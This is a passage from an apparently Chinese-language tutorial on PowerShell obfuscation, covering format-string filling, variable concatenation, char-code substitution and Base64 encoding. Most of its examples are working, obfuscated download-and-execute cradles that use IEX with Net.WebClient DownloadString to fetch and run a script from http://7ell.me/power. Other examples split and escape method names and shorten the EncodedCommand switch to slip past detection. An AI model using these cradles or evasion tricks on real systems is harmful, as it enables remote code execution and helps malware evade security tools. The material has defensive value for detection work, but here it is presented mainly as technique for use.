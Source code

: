 格式填充，-f 格式化。



```
//将NE download http://分别填到`{`0`}`,`{`1`}`,`{`2`}`
IEX ('(`{`0`}`w-Object `{`0`}`t.WebClient).`{`1`}`String("`{`2`}`7ell.me/power")' -f 'Ne', 'Download','http://') | IEX 
//示例2
.("`{`1`}``{`0`}`" -f 'X','IE') (&amp;("`{`3`}``{`2`}``{`1`}``{`0`}`" -f 'ct','-Obje','w','Ne') ("`{`0`}``{`2`}``{`1`}`" -f 'N','nt','et.WebClie')).("`{`2`}``{`0`}``{`1`}``{`3`}`" -f 'dSt','rin','Downloa','g').Invoke(("`{`5`}``{`0`}``{`3`}``{`4`}``{`1`}``{`2`}`" -f 'tp:/','o','wer','/','7ell.me/p','ht'))
```

变量拼接



```
$c1="(New-Object Net.We"; $c2="bClient).Downlo"; $c3="adString('http://7ell.me/power')";
1. IEX ($c1,$c2,$c3 -Join '') | IEX
2. IEX ($c1,$c3 -Join $c2) | IEX
3. IEX ([string]::Join($c2,$c1,$c3)) | IEX
4. IEX ([string]::Concat($c1,$c2,$c3)) | IEX
5. IEX ($c1+$c2+$c3) | IEX 
6. IEX "$c1$c2$c3" | IEX
```

**2.5 编码**

Ascii

使用[char]xx 代替字符 如：[char]59–&gt;;



```
//不用分号
$cmd= "$c1~~$c2~~$c3~~$c4"; IEX $cmd.Replace("~~",[string]([char]59)) | IEX
```

Base64

命令行参数使用

```
-EC,-EncodedCommand,-EncodedComman,-EncodedComma,-EncodedComm,......,Enc,-En,E
```

解码echo 123 的base64  ZQBjAGgAbwAgADEAMgAzAAoA



```
1.PS 2.0 -&gt;  [C`onv`ert]::"FromB`Ase6`4Str`ing"('ZQBjAGgAbwAgADEAMgAzAAoA')
2.PS 3.0+ -&gt; [ &lt;##&gt; Convert &lt;##&gt; ]:: &lt;##&gt; "FromB`Ase6`4Str`ing"('ZQBjAGgAbwAgADEAMgAzAAoA')
```

.NET的方法

```
IEX ([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('ZQBjAGgAbwAgADEAMgAzAAoA')))
```

